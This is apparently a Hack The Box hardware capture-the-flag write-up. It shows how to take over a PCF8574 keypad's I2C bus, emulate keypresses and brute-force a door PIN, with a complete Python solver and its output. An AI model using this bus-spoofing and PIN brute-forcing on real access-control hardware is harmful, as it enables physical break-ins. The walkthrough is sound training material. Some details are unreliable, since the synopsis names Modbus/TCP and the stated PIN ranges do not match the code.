

 <font size='10'>The Last Frontier</font>

28<sup>th</sup> July 2024

Prepared By: diogt

Challenge Author(s): diogt

Difficulty: <font color=red>Hard</font>

Classification: Official

# Synopsis

- Analyze Modbus/TCP network traffic of custom Function Code

## Description

- You've navigated past the main defenses, but there's one more hurdle: an air-gapped security keypad guarding the lab. We already tried up until the 5000 passcode but we did not manage to open it. We need a faster way to go through all the 4-digit passcodes. Luckily, we've exposed some traces on the device's keypad. Since it's air-gapped, you'll need to manually manipulate these pins to mimic the correct keypress sequence. Understanding circuit behavior and exploiting potential vulnerabilities in the hardware is key. Carefully manipulate the pins to unlock the door without triggering any alarms. This is your final step to securing the patch for distribution across the city. To aid in your mission, we have created a remote command and control interface for our custom module connected to the security keypad's traces. The schematic we've drafted based on the device's keypad configuration should be enough to get you started. (To enter a passcode send # it at the end)

## Skills Required

- Basic understanding of schematics
- Basic understanding of interpreting datasheets 
- Basic scripting skills

## Skills Learned

- Analyzing schematics of electronic boards
- Reverse engineering the functionality of an embedded device
- Manipulating serial busses
- simulate components of an embedded device 

# Enumeration

### Analyzing the files

The challenge provides us with three files:

* template.py: A client template that we can utilize to interact remotely with the hardware.

* keypad_n_module_schematic.pdf: A schematic of the security keypad including connections between:
  *  its interfacing IC with the MCU 
  * our communication Module that is tapped on the interfacing IC
* I2CKeyPad.cpp: Appears to be part of the source code used for the keypad. 


The challenge contains ports that based on the template.py appear to be for the keypad connection and a socket interface that allows the configuration of our communication module

```python

# The keypad host
# This host won't return any data until the communication module is properly configured.
# Simulation notes:
#   To facilitate easier interaction, the IC handling the keypad-to-MCU communication
#   is not actively scanning at a set interval (as it would in real life). Instead,
#   it waits for user input before sending its next command. This way, any network
#   delays should not create problems when interacting with the module.

HOST_1 = 'localhost' # Server hostname or IP address
PORT_1 = 1338  # Server port

# The socker interface
HOST_2 = 'localhost'
PORT_2 = 1337
```

The comment states that to enable the second interface we must first properly configure our module for communication!

### The socket interface

Let us connect to the socket interface, which should return the following text.

```
nc 0.0.0.0 1337

Remote Command and Control Interface
You can use this interface to configure and control the tools
attached to the target remotly
[*] Entering interactive mode.. [Press "H" for available commands]
cmd>
```

Issuing the `H` command will provide us with the available list of commands.

```
cmd> H
[*] Available commands:
system: Get system status, and text displayed on the LCD
        (including the FLAG when the system is disarmed)
GPIO: change state of a GPIO default is floating (0: LOW, 1: HIGH)
      example: set> 1 1 (GPIO-1 set to HIGH)
comm-module-id: configure the ID of the I2C communication module (0 to 256)
exit: Exit the interface
cmd>
```

It appears that we can monitor the system status (also available in the template.py) and also configure the GPIO pins of the comm module as well as its I2C address.

The system command indicates that the system is armed and there is no pin on the LCD at the moment.

```
cmd> system
[!] System is armed!
[*] No pin on LCD
```

It appears that we can use this command to verify the status of the LCS as well as the state of the system via the template.py to verify when we achieved our objective as indicated by the following function that issues the system command and then searches for a string starting with the flag prefix `HTB{`.

```python
def interact_with_nc(sock_nc):
    sock_nc.sendall(b"system\n")  # Send 'system' command
    time.sleep(0.5)  # Allow some time for response
    response = sock_nc.recv(4096).decode('utf-8')
    print("Received from NC server:", response)
    return 'HTB{' in response
```

Since we have no other leads at the moment we will proceed with the analysis fo the provided schematics.

### Analyzing the Schematics

The schematics contain a 4x4 Keypad connected to and IO expander module (PCF8574) that acts as the bridge between the keypad and the Microcontroller.


#### Communication Module connection to target device

Additionally, the schematic contains in the bottom right corner an area dedicated to the Communication Module and its connection to the target. It appears that the module is connected to:

1. The I2C bus, thus the option in the socket interface to configure its I2C address
2. 3 of its General Purpose Input/Output ((GPIO) pins are connected to 3 of the pins of the PCF8574 IC (A0, A1 and A3). 

> All of the above connections are indicated by the net tags connected to the pins of the U1 IC

A closer inspection of the A0, A1, and A2 pins shows that they are driven by pull-up and pull-down resistors. This means that since our communication module's GPIO pins are directly connected to them, they overpower the pull-up/down resistors and forcibly change the state of the A0, A1, and A2 pins of the U1 IC.


### Analyzing the PCF8574 IC

Now that we are aware of the control over the IC we need to understand how it operates. We can use Google to locate its datasheet and do a closer inspection on its functionality.


It appeats to be an `8-bit input/output (I/O) expander for the two-line bidirectional bus (I2C)` as we correctly assumed by the provided schematic. In its default configation indicated by the datasheet the A0 to A2 pins are all connected to ground.


If we nagivate to the pin configuation section we can see that these pins are used to configure the I2C address of the Module in the bus.


> The pull up resistors are not needed but in this scenario where they are used they allow us to drive the pins using our communication module without altering the target devices board configuration and traces.

#### Finding the I2C module address

Searching for the keyword `address` we can find how these 3 input pins are used to define the ICs I2C address.


So we can format the 7-bit address as follows: `0100[A2][A1[A0]`, which in our case is with the pull up/down resistors in place: `0b0100011` or in decimal: `35`. This is the configured address of the I2C module, meaning that the MCU of the target device will attempt to read the keypad presses via the I2C bus using this slave address. Lets configure our module's address to that and see if we can get anything back on the second port of the docker instance.

```
nc 0.0.0.0 1337

cmd> comm-module-id
id> 35
Module ID set to 35
```

If we attempt to connect to the second instance we will not receive any data. This means that our module is not properly configured yet. "If we revisit the schematic, it becomes evident that after configuring our module's ID to 35 (decimal), we now have **two**I2C slaves with the same ID. This duplication could lead to conflicts in the responses to the MCU, resulting in a broken communication channel. 

#### GPIO to force change PCF8574 I2C ID

Lets use the GPIOs in order to force a change in the PCF8574 ID. 

```
cmd> GPIO
set> 1 0
GPIO-1 set to: 0
```

Now we can succefully interafce tiwht the MCU via the I2C bus!

```
nc 0.0.0.0 1338
F0
```

If we echo the data the MCU sends we just get the same in result which does not provide any significant leads as to how ot proceed.

```
nc 0.0.0.0 1338
F0
F0
F0
F0
F0
```

### Static code analysis of PCF8574 4x4 keypad implementation

Now that we have established a connection to the MCU using our communication module as an I2C peripheral it is time to move into emulating the keypad. To achieve this we must first understand how the keypads driver IC and the MCU communicate. Part of the source code is provided to us via the file `I2CKeyPad.cpp`.  Navigating to the CPP source code [I2CKeyPad.cpp](https://github.com/RobTillaart/I2CKeyPad/blob/master/I2CKeyPad%20.cpp) we can locate the [getKey4x4()](https://github.com/RobTillaart/I2CKeyPad/blob/master/I2CKeyPad%20.cpp#L159), which should be responsible for driving the 4x4 keypad on the target device.


This function effectively scans a 4x4 matrix keypad using a row-column detection method, handling errors and no-key-pressed scenarios gracefully. It uses the I2C bus for communication, reading the state of the keypad's lines configured dynamically as either inputs or outputs to identify the specific key pressed. It contains two code blocks that are structurally similar but serve to check two different sets of lines (rows and columns) on the keypad. Each block processes its respective set of lines to determine if any line has gone low, indicating a key press.

###### Rows Checking Block

- **Initial Setup for Rows**: The function begins by setting the rows to be inputs with pull-up resistors and the columns as outputs (configured by `0xF0`). This allows the function to detect which row line, if any, is being driven low by a pressed key.
- Row Conditions:
  - The conditions check specific patterns (`0xE0`, `0xD0`, `0xB0`, `0x70`). Each pattern indicates a particular row going low.
  - The `key` variable starts at `0` and is incremented based on which row is active, i.e., which has a low value.

###### Columns Checking Block

- **Initial Setup for Columns**: After rows, the function configures the columns to be inputs with pull-ups and rows as outputs (configured by `0x0F`). This setup is then used to determine which column line is low.
- Column Conditions:
  - The column conditions are structured similarly to the row conditions but use different bit patterns (`0x0E`, `0x0D`, `0x0B`, `0x07`), each representing a different column going low.
  - The `key` value is incremented by multiples of 4 depending on the active column, aligning with the formula `key = row + 4 * column`.

If we backtrace the use of the getKey4x4() we can locate that is called by getKey()


If we backtrace the call of this function we will arrive at the getChar() where the key press value is mapped to a key as it seems.


Navigating at the GitHub repository mentioned in the comments on top of the source code 

```
char normal_keymap[19]  = "123A456B789C*0#DNF";   // typical normal key map (phone layout)
```

So for example to get the keypress `1` we will need to have the value of key being 0. 

```
normal_keymap[0] = 1
```

So the two following if conditions will be true for the row and column scanning:

```
<SNIP>
else if (rows == 0xE0) key = 0;

<SNIP>

else if (cols == 0x0E) key += 0;
<SNIP>
```

The following illustration shows how pressing the Key 1 would work.



Now that we have an understanding of how the keypad scanning is performed by the MCU we can create a keymap to fully simulate the keypad with our communication module.

```python
keymap = {
    '1': ['E0', '0E'],  # First row, first column
    '2': ['D0', '0E'],  # First row, second column
    '3': ['B0', '0E'],  # First row, third column
    'A': ['70', '0E'],  # First row, fourth column
    
    '4': ['E0', '0D'],  # First row, second column
    '5': ['D0', '0D'],  # Second row, second column
    '6': ['B0', '0D'],  # Third row, second column
    'B': ['70', '0D'],  # Fourth row, second column

    '7': ['E0', '0B'],  # First row, third column
    '8': ['D0', '0B'],  # Second row, third column
    '9': ['B0', '0B'],  # Third row, third column
    'C': ['70', '0B'],  # Fourth row, third column

    '*': ['E0', '07'],  # First row, fourth column
    '0': ['D0', '07'],  # Second row, fourth column
    '#': ['B0', '07'],  # Third row, fourth column
    'D': ['70', '07']   # Fourth row, fourth column
}

```

Additionally, we will create a function that will simulate the rows and columns read by using the value sent by the MCU (0xF0/0x0F) to send the appropriate information based on the keymap we created.

```python
def simulate_keypad_read(command):
    global current_key_to_send # the current key press we want to simulate
    """
    Simulate keypad responses for different commands.
    """

    if command == 'F0':  # Example: simulate that a key in the first row is pressed
        key = key_presses[current_key_to_send]

        return keymap[key][0] + '\n'

    elif command == '0F':  # Example: simulate that a key in the first column is pressed
        
        key = key_presses[current_key_to_send]

        current_key_to_send += 1

        return keymap[key][1] + '\n'
    else:
        return 'FF\n'  # Simulate no key pressed or invalid command
```


# Solution: 

Now that we have established a communication channelw ith the MCU via the I2C bus and have mapped each key to its correspoding value its time to start fuzzing the device. From the description we have the following information:

* The pin is 4 digits long
* The `#` character acts as enter in the keypad
* The pins up to `5000` are not valid.

So we will create a simple loop to send the pins in the range `5001` to `9999` followed by a `#` .

```python
import socket
import time 

# The keypad host
HOST_1 = 'localhost' # Server hostname or IP address
PORT_1 = 1338  # Server port

# The socker interface
HOST_2 = 'localhost'
PORT_2 = 1337


key_presses = '5254#'

current_key_to_send = 0

keymap = {
    '1': ['E0', '0E'],  # First row, first column
    '2': ['D0', '0E'],  # First row, second column
    '3': ['B0', '0E'],  # First row, third column
    'A': ['70', '0E'],  # First row, fourth column
    
    '4': ['E0', '0D'],  # First row, second column
    '5': ['D0', '0D'],  # Second row, second column
    '6': ['B0', '0D'],  # Third row, second column
    'B': ['70', '0D'],  # Fourth row, second column

    '7': ['E0', '0B'],  # First row, third column
    '8': ['D0', '0B'],  # Second row, third column
    '9': ['B0', '0B'],  # Third row, third column
    'C': ['70', '0B'],  # Fourth row, third column

    '*': ['E0', '07'],  # First row, fourth column
    '0': ['D0', '07'],  # Second row, fourth column
    '#': ['B0', '07'],  # Third row, fourth column
    'D': ['70', '07']   # Fourth row, fourth column
}

def interact_with_nc(sock_nc):
    sock_nc.sendall(b"system\n")  # Send 'system' command
    time.sleep(0.5)  # Allow some time for response
    response = sock_nc.recv(4096).decode('utf-8')
    print("Received from NC server:", response)
    return 'HTB{' in response


def simulate_keypad_read(command):
    global current_key_to_send
    """
    Simulate keypad responses for different commands.
    """

    if command == 'F0':  # Example: simulate that a key in the first row is pressed
        key = key_presses[current_key_to_send]

        return keymap[key][0] + '\n'

    elif command == '0F':  # Example: simulate that a key in the first column is pressed
        
        key = key_presses[current_key_to_send]

        current_key_to_send += 1

        return keymap[key][1] + '\n'

        
    else:
        return 'FF\n'  # Simulate no key pressed or invalid command

def run_client(server_host, server_port):
    global key_presses,  current_key_to_send


    # Set the host and port for the netcat server
    nc_host = HOST_2 
    nc_port = PORT_2

    # Create a socket
    sock_nc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    # Connect to the netcat server
    sock_nc.connect((nc_host, nc_port))
    print("Connected to NC server.")


    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as sock:
        sock.connect((server_host, server_port))
        print("Connected to server")
        for pin in range(5000, 5054):  # Range to include 5254
            
            key_presses = f"{pin:04d}#"  # Format pin with leading zeros and end with #
            
            print(key_presses)
            current_key_to_send = 0

            while True:
                data = sock.recv(1024).decode('utf-8').strip()
                if not data:
                    print("Server closed the connection")
                    break

                print(f"Received from server: {data}")

                # Process incoming data from the server and simulate keypad read
                response = simulate_keypad_read(data)

                if response:
                    sock.sendall(response.encode('utf-8'))  # Send response back to the server
                    
                if len(key_presses) == current_key_to_send:
                    break

                if data == 'quit':  # Optionally handle a quit command
                    print("Quit command received")
                    break


            
            #time.sleep(0.1)
            interact_with_nc(sock_nc)


if __name__ == "__main__":
    SERVER_HOST = HOST_1   
    SERVER_PORT = PORT_1
    run_client(SERVER_HOST, SERVER_PORT)

```

> NOTE: Make sure to close any socket connections to the socket interface as it can only accept one connection each time. If another connection is open the solver script wont be able to connect to the interface to monitor the state of the system!

## Getting the Flag

After we leave our fuzzing script to run for some time we can inteify the appropriate pin number and retreive the flag!

```
python3 solver.py

5001#
Received from server: F0
Received from server: 0F
Received from server: F0
Received from server: 0F
Received from server: F0
Received from server: 0F
Received from server: F0
Received from server: 0F
Received from server: F0
Received from server: 0F
Received from interface server: You can use this interface to configure and control the tools
attached to the target remotly
[*] Entering interactive mode.. [Press "H" for available commands]
cmd> [!] Incorrect pin!
[!] Try harder..
cmd> [!] System is armed!
[*] No pin on LCD

5002#
Received from server: F0
Received from server: 0F
Received from server: F0
Received from server: 0F
Received from server: F0
Received from server: 0F
Received from server: F0
Received from server: 0F
Received from server: F0
Received from server: 0F
Received from interface server: cmd> [!] Incorrect pin!
[!] Try harder..

<SNIP>

[!] Try harder..
cmd>
5052#
Received from server: F0
Received from server: 0F
Received from server: F0
Received from server: 0F
Received from server: F0
Received from server: 0F
Received from server: F0
Received from server: 0F
Received from server: F0
Received from server: 0F
Received from interface server: [*] System is disarmed!
HTB{231 <SNIP> }
```

